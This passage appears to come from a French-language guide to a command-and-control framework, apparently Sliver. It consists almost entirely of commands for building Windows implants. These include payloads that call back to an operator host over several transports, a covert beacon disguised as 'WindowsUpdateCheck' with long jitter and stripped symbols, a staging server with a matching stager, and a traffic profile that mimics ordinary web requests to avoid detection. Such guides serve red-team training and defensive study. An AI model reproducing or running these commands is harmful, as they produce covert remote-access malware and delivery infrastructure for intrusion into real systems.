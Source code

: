 ### 7.2 Payload avec configuration réseau multiple
```bash
# Listener HTTPS sur port 443
https --lport 443

# Payload avec fallback multiple
generate --https 192.168.1.100:443 \
    --http 192.168.1.100:80 \
    --os windows \
    --arch amd64 \
    --format exe \
    --save /tmp/multi_transport.exe
```

### 7.3 Beacon furtif avancé
```bash
# Configuration beacon très discret
generate beacon \
    --mtls 192.168.1.100:443 \
    --os windows \
    --arch amd64 \
    --format exe \
    --jitter 300s \
    --interval 900s \
    --skip-symbols \
    --name "WindowsUpdateCheck" \
    --save /tmp/stealth_beacon.exe
```

---

## 8. Techniques de Livraison

### 8.1 Serveur de staging
```bash
# Configuration d'un listener pour staging
stage-listener --url https://192.168.1.100:443/download --cc-url https://192.168.1.100:443

# Génération du stager correspondant
generate stager \
    --lhost 192.168.1.100 \
    --lport 443 \
    --protocol https \
    --format exe \
    --save /tmp/staged_payload.exe
```

### 8.2 Profil de communication personnalisé
```bash
# Création d'un profil HTTP personnalisé
profiles new http \
    --name "WebTraffic" \
    --url-paths "/api/v1/data,/static/js/app.js,/images/logo.png" \
    --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36" \
    --jitter 120s

# Génération du payload avec ce profil
generate --profile WebTraffic \
    --os windows \
    --format exe \
    --save /tmp/web_disguised.exe
```
